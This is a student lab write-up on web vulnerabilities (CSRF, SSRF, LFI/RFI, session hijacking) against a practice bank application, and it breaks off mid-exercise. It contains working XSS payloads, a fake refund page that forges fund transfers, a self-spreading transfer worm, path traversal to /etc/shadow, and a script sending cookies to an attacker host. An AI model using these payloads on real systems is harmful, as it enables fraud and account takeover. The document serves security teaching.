\hypertarget{web-application-vulnerabilities--2}{%
\subsection{Web Application Vulnerabilities
-2}\label{web-application-vulnerabilities--2}}

\hypertarget{exercise-1-cross-site-request-forgery-csrfxsrf}{%
\subsubsection{Exercise 1: Cross Site Request Forgery
(CSRF/XSRF)}\label{exercise-1-cross-site-request-forgery-csrfxsrf}}

\hypertarget{task-1}{%
\paragraph{Task 1}\label{task-1}}

\textbf{Q 1. Briefly explain what CSRF/XSRF is in your own words
(outline the roles and steps involved in XSRF attack).}

\textbf{Solution}

\begin{itemize}
\item
  Cross-site-request-forgery (CSRF)- is an attack where a malicious
  website exploits trust between the web browser and the authenticated
  user's website that is vulnerable.
\item
  Unauthorized requests or commands are executed on behalf of the victim
  on a vulnerable website.
\item
  Assume a vulnerable website that allows executing commands (like funds
  transfer) containing a URL for that fund's transfer. So when the user
  hits \texttt{transfer\ funds} with appropriate parameters, the request
  gets executed successfully.
\item
  Steps involved:

  \begin{itemize}
  \tightlist
  \item
    Setup a malicious website.
  \item
    Craft a script or source (like, \texttt{img} tags, \texttt{iframe})
    that executes a request to transfer funds.
  \item
    Allow the authenticated victim to access the malicious website.
  \item
    Send the fund transfer request (Since the victim is authenticated
    and the URL/Script is crafted to transfer funds, cookies stored on
    the victim's browser also be sent).
  \item
    Request is sent on behalf of malicious users so the request is
    executed successfully.
  \end{itemize}
\end{itemize}

\hypertarget{task-2}{%
\paragraph{Task 2}\label{task-2}}

\textbf{Q: What is the difference between XSS and CSRF/XSRF from their
execution perspective?}\\
\textbf{Solution:} Both of these are client-side attacks. But,
Cross-site scripting (or XSS) allows an attacker to execute arbitrary
JavaScript within the browser of a victim user. Where as Cross-site
request forgery (or CSRF) allows an attacker to trick a victim user to
perform actions that they do not intend to.

\hypertarget{task-3}{%
\paragraph{Task 3}\label{task-3}}

\textbf{Q: Briefly explain why your bank is theoretically vulnerable to
CSRF/XSRF attack!}\\
\textbf{Solution:} After examining the web request from the
\texttt{Transfer\ Funds} page, the web application doesn't send a unique
identifier or token, that identifies the request being originated from
the same domain or performed by an actual user.

\begin{figure}
\centering

\includegraphics{images/task2/funds_transfer.PNG}
\caption{funds\_transfer}
\end{figure}

\hypertarget{task-4}{%
\paragraph{Task 4}\label{task-4}}

\textbf{Assume that you are a valid customer of your bank. Show how you
can use XSRF to transfer money from another account to your account.}
\textbf{Solution:} - In this attack, XSS vulnerability on the Account
Details page is leveraged to perform CSRF. - Run the Python HTTP server,
where \texttt{error.html} is located.

\begin{verbatim}
```bash
    python -m SimpleHTTPServer 81
```

```html
<html>
<body>
    <script>
        const queryString = window.location.search;
        console.log(queryString);
        const urlParams = new URLSearchParams(queryString);
        const accountNo = urlParams.get('x');

        function getURL() {

            const url = "http://localhost/htdocs/index.php?page=htbtransfer&srcacc=" + accountNo + "&dstbank=41131337&dstacc=14314312&amount=1.95&remark=&htbtransfer=Transfer";
            http://localhost/htdocs/index.php?page=htbtransfer&srcacc=173105291&dstbank=41131337&dstacc=11111111&amount=1&remark=&htbtransfer=Transfer 
            window.open(url, "_blank");
        }
    </script>
    <html>
    <body>
        We are very sorry for the inconvenience, you had an error while during the last transaction, please click the
        button bellow to claim your refund plus 1 cent gift.
        <button onclick="getURL()"> Proceed </button>

    </body>

    </html>
```
\end{verbatim}

\begin{itemize}
\item
  Three payloads were used due to the character limitations of the
  remark field.
\item
  Navigate to Transfer Funds page and send the below three payloads in
  remark field to victim account from the attacker account.

  \begin{itemize}
  \tightlist
  \item
    Payload 1
  \end{itemize}

\begin{Shaded}
\begin{Highlighting}[]
    \OperatorTok{\textless{}}\NormalTok{script}\OperatorTok{\textgreater{}}\KeywordTok{var}\NormalTok{ x }\OperatorTok{=} \BuiltInTok{document}\OperatorTok{.}\FunctionTok{getElementsByName}\NormalTok{(}\StringTok{"account"}\NormalTok{)[}\DecValTok{0}\NormalTok{]}\OperatorTok{.}\AttributeTok{value}\OperatorTok{\textless{}/}\NormalTok{script}\OperatorTok{\textgreater{}} 
\end{Highlighting}
\end{Shaded}

  \begin{itemize}
  \tightlist
  \item
    Payload 2
  \end{itemize}

\begin{Shaded}
\begin{Highlighting}[]
    \OperatorTok{\textless{}}\NormalTok{script}\OperatorTok{\textgreater{}}\KeywordTok{function} \FunctionTok{y}\NormalTok{()\{}\BuiltInTok{window}\OperatorTok{.}\FunctionTok{open}\NormalTok{(}\StringTok{"http://localhost:81/error.html?x="}\OperatorTok{+}\NormalTok{x}\OperatorTok{,} \StringTok{"\_blank"}\NormalTok{)}\OperatorTok{;}\NormalTok{\}}\OperatorTok{\textless{}/}\NormalTok{script}\OperatorTok{\textgreater{}} 
\end{Highlighting}
\end{Shaded}

  \begin{itemize}
  \tightlist
  \item
    Payload 3
  \end{itemize}

\begin{Shaded}
\begin{Highlighting}[]

    \OperatorTok{\textless{}}\NormalTok{a onclick}\OperatorTok{=}\StringTok{"y()"}\OperatorTok{\textgreater{}}\BuiltInTok{Error}\NormalTok{ please click here}\OperatorTok{!!\textless{}/}\NormalTok{a}\OperatorTok{\textgreater{}}
\end{Highlighting}
\end{Shaded}
\item
  Once the payloads are transferred victim can see an
  \texttt{Error\ please\ click\ here!!!} link in the remark field on the
  Account details page.
\end{itemize}

\begin{itemize}
\tightlist
\item
  The page will be redirected to the \texttt{error.html} which is up and
  running.
\end{itemize}

\begin{figure}
\centering

\includegraphics{images/task2/1.4.1.JPG}
\caption{Attacker\_Website}
\end{figure}

\begin{itemize}
\tightlist
\item
  If the victim clicks on the `proceed' button, the funds will be
  transferred to the attacker's account, and the page is redirected to
  the bank web application.
\end{itemize}

\begin{figure}
\centering

\includegraphics{images/task2/1.4.2.JPG}
\caption{Attack\_Successful}
\end{figure}

\hypertarget{task-5.}{%
\paragraph{Task 5.}\label{task-5.}}

\textbf{Q: Enhance your last attack such that it automatically spreads
to other accounts and transfers your money from them too. Briefly
explain your attack.}

\textbf{solution} - To perform this attack we have to make some
assumptions to overcome some limitations. - The assumption is that a
bank account number is an eight-digit number with the same number in
every digit place like 11111111,22222222,33333333\ldots.,99999999. -
Approaches and their limitations: - \textbf{Approach 1:} Bruteforce. to
generate all account numbers and send the payload. - Limitation:
Bruteforce is computationally costly. - \textbf{Approach 2:} Acquiring
account number from the Account Details page. - Limitation: There might
be a scenario where \texttt{Account\ A} has only \texttt{B}'s details on
its account details page and \texttt{B} also has only \texttt{A}'s
details in this case we are not able to spread the attack to other
accounts.

\begin{itemize}
\item
  Because of these limitations for the demonstration of the attack, we
  made the assumption.
\item
  To perform the attack please repeat the process explained in exercise
  1.d replacing the cookie.html code with the code given below.
\end{itemize}

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{\textless{}html\textgreater{}}

\KeywordTok{\textless{}body\textgreater{}}
\NormalTok{    We are very sorry for the inconvenience, you had an error while during the last transaction, please click the button}
\NormalTok{    bellow to claim your refund plus 1 cent gift.}
    \KeywordTok{\textless{}button} \ErrorTok{onclick}\OtherTok{=}\StringTok{"getURL()"}\KeywordTok{\textgreater{}}\NormalTok{ Proceed }\KeywordTok{\textless{}/button\textgreater{}}
    \KeywordTok{\textless{}div} \ErrorTok{style}\OtherTok{=}\StringTok{"display:none"} \ErrorTok{id}\OtherTok{=}\StringTok{"images"}\KeywordTok{\textgreater{}} \KeywordTok{\textless{}/div\textgreater{}}
\KeywordTok{\textless{}/body\textgreater{}}

\KeywordTok{\textless{}script\textgreater{}}
    \KeywordTok{const}\NormalTok{ queryString }\OperatorTok{=} \BuiltInTok{window}\OperatorTok{.}\AttributeTok{location}\OperatorTok{.}\AttributeTok{search}\OperatorTok{;}
    \BuiltInTok{console}\OperatorTok{.}\FunctionTok{log}\NormalTok{(queryString)}\OperatorTok{;}
    \KeywordTok{const}\NormalTok{ urlParams }\OperatorTok{=} \KeywordTok{new} \FunctionTok{URLSearchParams}\NormalTok{(queryString)}\OperatorTok{;}
    \KeywordTok{const}\NormalTok{ accountNo }\OperatorTok{=}\NormalTok{ urlParams}\OperatorTok{.}\FunctionTok{get}\NormalTok{(}\StringTok{\textquotesingle{}x\textquotesingle{}}\NormalTok{)}\OperatorTok{;}
    \BuiltInTok{console}\OperatorTok{.}\FunctionTok{log}\NormalTok{(accountNo)}\OperatorTok{;}

    \KeywordTok{const}\NormalTok{ allAccounts }\OperatorTok{=}\NormalTok{ [}\DecValTok{11111111}\OperatorTok{,} \DecValTok{22222222}\OperatorTok{,} \DecValTok{33333333}\OperatorTok{,} \DecValTok{44444444}\OperatorTok{,} \DecValTok{55555555}\OperatorTok{,} \DecValTok{66666666}\OperatorTok{,} \DecValTok{77777777}\OperatorTok{,} \DecValTok{88888888}\OperatorTok{,} \DecValTok{99999999}\NormalTok{]}\OperatorTok{;}

    \KeywordTok{function} \FunctionTok{getURL}\NormalTok{() \{}

\NormalTok{        allAccounts}\OperatorTok{.}\FunctionTok{forEach}\NormalTok{(}\KeywordTok{function}\NormalTok{ (destAccount) \{}
            \ControlFlowTok{if}\NormalTok{ (destAccount }\OperatorTok{!=}\NormalTok{ accountNo) \{}
                \KeywordTok{var}\NormalTok{ varName }\OperatorTok{=} \KeywordTok{new} \FunctionTok{Image}\NormalTok{()}\OperatorTok{;}
\NormalTok{                varName}\OperatorTok{.}\AttributeTok{src} \OperatorTok{=} \StringTok{"http://localhost/htdocs/index.php?page=htbtransfer\&srcacc="} \OperatorTok{+}\NormalTok{ accountNo }\OperatorTok{+} \StringTok{"\&dstbank=41131337\&dstacc="} \OperatorTok{+}\NormalTok{ destAccount }\OperatorTok{+} \StringTok{"\&amount=1.1\&remark=\%3Cscript\%3Evar+x+\%3D+document.getElementsByName\%28\%22account\%22\%29\%5B0\%5D.value\%3C\%2Fscript\%3E\&htbtransfer=Transfer"}\OperatorTok{;}
                \BuiltInTok{document}\OperatorTok{.}\FunctionTok{getElementById}\NormalTok{(}\StringTok{\textquotesingle{}images\textquotesingle{}}\NormalTok{)}\OperatorTok{.}\FunctionTok{appendChild}\NormalTok{(varName)}\OperatorTok{;}

                \KeywordTok{var}\NormalTok{ funcName }\OperatorTok{=} \KeywordTok{new} \FunctionTok{Image}\NormalTok{()}\OperatorTok{;}
\NormalTok{                funcName}\OperatorTok{.}\AttributeTok{src} \OperatorTok{=} \StringTok{"http://localhost/htdocs/index.php?page=htbtransfer\&srcacc="} \OperatorTok{+}\NormalTok{ accountNo }\OperatorTok{+} \StringTok{"\&dstbank=41131337\&dstacc="} \OperatorTok{+}\NormalTok{ destAccount }\OperatorTok{+} \StringTok{"\&amount=1.2\&remark=\%3Cscript\%3Efunction+y\%28\%29\%7Bwindow.open\%28\%22http\%3A\%2F\%2Flocalhost\%2Fhtdocs\%2Ferror.html\%3Fx\%3D\%22\%2Bx\%2C+\%22\_blank\%22\%29\%3B\%7D\%3C\%2Fscript\%3E\&htbtransfer=Transfer"}\OperatorTok{;}
                \BuiltInTok{document}\OperatorTok{.}\FunctionTok{getElementById}\NormalTok{(}\StringTok{\textquotesingle{}images\textquotesingle{}}\NormalTok{)}\OperatorTok{.}\FunctionTok{appendChild}\NormalTok{(funcName)}\OperatorTok{;}

                \KeywordTok{var}\NormalTok{ executeFunction }\OperatorTok{=} \KeywordTok{new} \FunctionTok{Image}\NormalTok{()}\OperatorTok{;}
\NormalTok{                executeFunction}\OperatorTok{.}\AttributeTok{src} \OperatorTok{=} \StringTok{"http://localhost/htdocs/index.php?page=htbtransfer\&srcacc="} \OperatorTok{+}\NormalTok{ accountNo }\OperatorTok{+} \StringTok{"\&dstbank=41131337\&dstacc="} \OperatorTok{+}\NormalTok{ destAccount }\OperatorTok{+} \StringTok{"\&amount=1.3\&remark=\%3Ca+onclick\%3D\%22y\%28\%29\%22\%3EError+please+click+here\%21\%21\%3C\%2Fa\%3E++\&htbtransfer=Transfer"}\OperatorTok{;}
                \BuiltInTok{document}\OperatorTok{.}\FunctionTok{getElementById}\NormalTok{(}\StringTok{\textquotesingle{}images\textquotesingle{}}\NormalTok{)}\OperatorTok{.}\FunctionTok{appendChild}\NormalTok{(executeFunction)}\OperatorTok{;}

\NormalTok{            \}}
\NormalTok{        \})}\OperatorTok{;}

        \KeywordTok{const}\NormalTok{ url }\OperatorTok{=} \StringTok{"http://localhost/htdocs/index.php?page=htbtransfer\&srcacc="} \OperatorTok{+}\NormalTok{ accountNo }\OperatorTok{+} \StringTok{"\&dstbank=41131337\&dstacc=14314312\&amount=1.95\&remark=\&htbtransfer=Transfer"}\OperatorTok{;}

        \BuiltInTok{window}\OperatorTok{.}\FunctionTok{open}\NormalTok{(url}\OperatorTok{,} \StringTok{"\_blank"}\NormalTok{)}\OperatorTok{;}

\NormalTok{    \}}
\KeywordTok{\textless{}/script\textgreater{}}

\KeywordTok{\textless{}/html\textgreater{}}
\end{Highlighting}
\end{Shaded}

\begin{itemize}
\tightlist
\item
  When the victim clicks the \texttt{Error\ please\ click\ here!!!} link
  the attack will spread to all accounts on the bank server.
\end{itemize}


\includegraphics{images/task2/1.5.JPG}

\hypertarget{exercise-2-server-side-request-forgeryssrf}{%
\subsubsection{Exercise 2: Server-Side Request
Forgery(SSRF)}\label{exercise-2-server-side-request-forgeryssrf}}

\textbf{1. Briefly explain in your own words what is SSRF vulnerability
and common SSRF attacks and what are the common SSRF defences
circumventing}

\textbf{Solution} - \textbf{SSRF(Server-side request forgery)} is a web
server vulnerability where an attacker tricks the server to execute a
request. with a specially crafted request, one can control the
vulnerable application itself or other back-end systems that the server
can communicate with. The malicious URL usually crafted using a publicly
accessible URL, thus giving partial or full control on server requests.

\begin{itemize}
\item
  \textbf{Common SSRF attacks}

  \begin{itemize}
  \tightlist
  \item
    SSRF attacks can affect the server itself or the other backend
    systems that have a relation with the server.
  \item
    SSRF attacks against the server itself.
  \item
    In an SSRF attack against the server itself, the attacker tricks the
    application to make an HTTP request to the server itself via its
    loopback network interface.
  \item
    Consider an example where a user makes a \texttt{POST} request to
    fetch a product.
  \item
    the request looks like below
  \end{itemize}

\begin{Shaded}
\begin{Highlighting}[]

\NormalTok{    POST }\OperatorTok{/}\NormalTok{product}\OperatorTok{/}\NormalTok{stock HTTP}\OperatorTok{/}\FloatTok{1.0}
\NormalTok{    Content}\OperatorTok{{-}}\NormalTok{Type}\OperatorTok{:}\NormalTok{ application}\OperatorTok{/}\NormalTok{x}\OperatorTok{{-}}\NormalTok{www}\OperatorTok{{-}}\NormalTok{form}\OperatorTok{{-}}\NormalTok{urlencoded}
\NormalTok{    Content}\OperatorTok{{-}}\NormalTok{Length}\OperatorTok{:} \DecValTok{118}
\NormalTok{    stockApi}\OperatorTok{=}\NormalTok{http}\OperatorTok{:}\CommentTok{//stock.weliketoshop.net:8080/product/stock/check\%3FproductId\%3D6\%26storeId\%3D1}
\end{Highlighting}
\end{Shaded}
\item
  This can be manipulated to
  \texttt{POST\ /product/stock\ HTTP/1.0\ \ \ \ \ Content-Type:\ application/x-www-form-urlencoded\ \ \ \ \ Content-Length:\ 118\ \ \ \ \ stockApi=http://localhost/admin}
\item
  Which returns the admin contents to the user.
\item
  SSRF attacks against other back-end systems. This type of attack can
  be performed when the application vulnerable server can interact with
  other back-end systems that are not directly reachable by users.
\item
  This attack can exploit by requesting
  \texttt{stockApi=http://192.164.1.22/admin}
\item
  \textbf{Common SSRF defenses:}

  \begin{itemize}
  \tightlist
  \item
    blacklist-based input filters, The application should block the
    requests containing \texttt{localhost}, \texttt{127.0.0.1} or other
    sensitive keywords like \texttt{admin}.
  \item
    Whitelist-based input filters,by allowing input that matches, begins
    with, or contains.
  \item
    Whitelist domains in DNS.
  \item
    Do not send raw responses.
  \item
    Sanitize and validate inputs.
  \item
    Enable authentication on all services.
  \end{itemize}
\end{itemize}

\textbf{2. What is the difference between SSRF and CSRF/XSRF from their
execution perspective?}

\textbf{Solution:} CSRF targets the user, to trick or executes malicious
links/requests, and send them to the server on behalf of them, whereas
SSRF involves specifically targeting the server, which is vulnerable in
handling user requests. Although in both cases, the server is
vulnerable, the victim is different in CSRF and SSRF attacks.

\hypertarget{exercise-3-local-file-inclusion-lfi}{%
\subsubsection{Exercise 3: Local File Inclusion
(LFI)}\label{exercise-3-local-file-inclusion-lfi}}

\textbf{1. Briefly explain what is a Local File Inclusion (LFI)
vulnerability? By using a simple example, describe how do LFIs work and
how to avoid this vulnerability? Show a vulnerable code and apply your
patch to it.}

\textbf{Solution:} \textbf{Local File Inclusion (LFI)} is a web
vulnerability, where an attacker tricks the web application to
dynamically load files from the webserver that are available locally.

\emph{Example:} When an application receives an unsanitized user input,
and processed, which exposes local files because of the input that
directly constructs the file path, which is included in a response.

\textbf{sample vulnerable code}

\begin{Shaded}
\begin{Highlighting}[]

    \KeywordTok{echo} \StringTok{"File included: "}\OperatorTok{.}\VariableTok{$\_REQUEST}\NormalTok{[}\StringTok{"page"}\NormalTok{]}\OperatorTok{.}\StringTok{"\textless{}br\textgreater{}"}\OtherTok{;}
    \KeywordTok{echo} \StringTok{"\textless{}br\textgreater{}\textless{}br\textgreater{}"}\OtherTok{;}
    \VariableTok{$local\_file} \OperatorTok{=} \VariableTok{$\_REQUEST}\NormalTok{[}\StringTok{"page"}\NormalTok{]}\OtherTok{;}
    \KeywordTok{echo} \StringTok{"Local file to be used: "}\OperatorTok{.} \VariableTok{$local\_file}\OtherTok{;}
    \KeywordTok{echo} \StringTok{"\textless{}br\textgreater{}\textless{}br\textgreater{}"}
    \KeywordTok{include} \VariableTok{$local\_file}\OtherTok{;}
\end{Highlighting}
\end{Shaded}

How it works:

\begin{itemize}
\tightlist
\item
  The application uses file path as an input.
\item
  User input is treated as trusted and safe.
\item
  A local file can be included as a result of user-specified input to
  the file include.
\item
  Application returns the file contents as a response.
\end{itemize}

\textbf{Avoiding the Vulnerability} - ID assignation: Saving file paths
in a database with an ID for every single one, this way user can only
see the ID without viewing or altering the path. - Whitelisting: An
application can allow verified and secured whitelist files and ignore
other input or file names.

\begin{itemize}
\item
  \textbf{A vulnerable code}
  \texttt{php\ \ \ \ \ \ \$local\_file\ =\ \$\_REQUEST{[}"page"{]};\ \ \ \ \ \ include\ (\$local\_file.\ \textquotesingle{}.php\textquotesingle{})}
\item
  \textbf{Fix: Whitelisting file}
  \texttt{php\ \ \ \ \ \ \$allowed\_files\ =\ array(\textquotesingle{}index\textquotesingle{},\textquotesingle{}transfer\textquotesingle{},\textquotesingle{}accounts\textquotesingle{});\ //list\ of\ files\ that\ are\ allowed\ to\ be\ included\ \ \ \ \ \ \ \$local\_file\ =\ \$\_REQUEST{[}"page"{]};\ \ \ \ \ \ if(in\_array(\$local\_file,\ \$allowed\_files))\ \{\ //check\ if\ the\ requested\ file\ is\ in\ allowed\ array\ list\ \ \ \ \ \ \ \ \ include\ (\$local\_file.\ \textquotesingle{}.php\textquotesingle{})\ \ \ \ \ \}}

  \begin{quote}
  It is also best, that none of the allowed\_files can be modified by
  attacker, epecially with file uploads where the attacker has control
  over file names.
  \end{quote}
\end{itemize}

\textbf{2. How do you identify and exploit LFI? Describe it with a
simple example.}

\begin{itemize}
\item
  Look for the page that includes file names or pages as URL parameters
  like,
  \texttt{javascript\ \ \ \ \ \ \ \ \ \ http://www.vbank.com/file.php?file=transfer.php}
\item
  Change file by changing the file include or file path URL.
\item
  Traverse through the directory to look for local files and observe the
  response from the application.
\item
  Example..
  \texttt{javascript\ \ \ \ \ \ \ \ \ http://www.vbank.com/file.php?file=../etc/shadow\ \ //does\textquotesingle{}nt\ work}
  \texttt{javascript\ \ \ \ \ \ \ \ \ http://www.vbank.com/file.php?file=../../etc/shadow\ //\ does\textquotesingle{}nt\ work}
  \texttt{javascript\ \ \ \ \ \ \ \ \ http://www.vbank.com/file.php?file=../../../etc/shadow\ //\ shows\ the\ shadow\ file}
\item
  If the file path is true and the application doesn't filter and the
  file is available local to the server, contents can be displayed on
  the browser as a response.
\item
  The lack of input validation and filtering for files allows reading
  file contents.
\end{itemize}

\textbf{3. Briefly explain what is Remote File Inclusion (RFI) and how
can you minimise the risk of RFI attacks? And LFI vs.~RFI?}\\
\textbf{Solution:}\\
- \textbf{Remote File Inclusion (RFI)} web vulnerability where arbitary
input is allowed in file include request that dynamically refere
external scripts. - If that input is not sanitized, that can lead to the
execution of remote files from a remote URL located within a different
domain. - In PHP, using the unsanitized input in functions like
\texttt{include},\texttt{include\_once}, \texttt{require},
\texttt{require\_once} lead to such vulnerabilities. - Typical
Vulnerable code.

\begin{verbatim}
```php
    echo "File included is :". $_REQUEST["file"]."<br>";
    echo "<br><br>";
    include $_REQUEST["file"];
```
\end{verbatim}

\begin{itemize}
\tightlist
\item
  \textbf{Minimizing risks:}

  \begin{itemize}
  \tightlist
  \item
    Sanitize user-provided inputs in (GET/POST parameters, URL
    parameters and HTTP header values).
  \item
    Build a whitelist and allow request execution only with the requests
    with those files.
  \item
    For RFI to work, \texttt{allow\_url\_include} must be turned
    \texttt{On} in PHP configuration (located in \texttt{php.ini}). This
    can be turned \texttt{Off} to minimize the risk of fetching remote
    files. Usually on default installation this is turned \texttt{Off}.
  \end{itemize}
\item
  \textbf{LFI Vs RFI}

  \begin{itemize}
  \tightlist
  \item
    LFI and RFI are almost similar, both the attacks result in the
    upload of malware to the server to gain unauthorized access to
    sensitive data. In the RFI the attacker uses remote files whereas in
    LFI local files are used to carry out the attack.
  \end{itemize}
\end{itemize}

\hypertarget{exercise-4-session-hijacking}{%
\subsubsection{Exercise 4: Session
Hijacking}\label{exercise-4-session-hijacking}}

\textbf{1. Install a webserver on your machine. Use it to write a script
that will read the information required to hijack a session. Briefly
describe your script.}

\textbf{Solution:} - Installed Python and run the webserver module,

\begin{Shaded}
\begin{Highlighting}[]
    \ExtensionTok{$}\NormalTok{ python3 }\AttributeTok{{-}m}\NormalTok{ http.server}
        \ExtensionTok{Serving}\NormalTok{ HTTP on 0.0.0.0 port 8000 }\ErrorTok{(}\ExtensionTok{http://0.0.0.0:8000/}\KeywordTok{)}
\end{Highlighting}
\end{Shaded}

\begin{itemize}
\item
  Initiate funds transfer with following remarks,
\item
  Remarks in transfer 1:
\end{itemize}

\begin{Shaded}
\begin{Highlighting}[]
\OperatorTok{\textless{}}\NormalTok{script}\OperatorTok{\textgreater{}}\KeywordTok{new} \FunctionTok{Image}\NormalTok{()}\OperatorTok{.}\AttributeTok{src}\OperatorTok{=}\StringTok{"http://192.168.37.128:81/c="}\OperatorTok{+}\BuiltInTok{document}\OperatorTok{.}\AttributeTok{cookie}\OperatorTok{;\textless{}/}\NormalTok{script}\OperatorTok{\textgreater{}}
\end{Highlighting}
\end{Shaded}

\begin{figure}
\centering
